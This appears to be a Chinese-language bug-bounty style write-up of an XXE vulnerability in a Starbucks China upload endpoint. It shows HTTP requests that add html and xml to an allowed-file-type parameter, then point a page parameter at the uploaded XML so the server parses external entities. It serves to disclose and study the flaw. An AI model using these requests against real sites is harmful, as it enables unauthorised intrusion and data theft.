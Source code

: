### 3.1、星巴克上传接口XXE

首先登录到用户输入的个人信息设置页面，点击上传图片。发现在参数allow_file_type_list中添加html，就可以上传HTML文件，并返回地址信息。

```
Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif
...

Modified Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,html
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.html"
}
...

```

这样就可以尝试在参数allow_file_type_list中添加XML，上传XML文件

```
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,xml
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml"
}
...

```

然后修改_hxpage参数为上传的xml文件，服务器将尝试解析这个XML文件。当这个XML文件包含一个外部实体引用，服务器将尝试访问这个引用指向的URL，造成XXE攻击

```
POST /retail/hxpublic_v6/hxdynamicpage6.aspx?_hxpage=tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml HTTP/1.1
Host: starbucks.com.cn
...
...

```
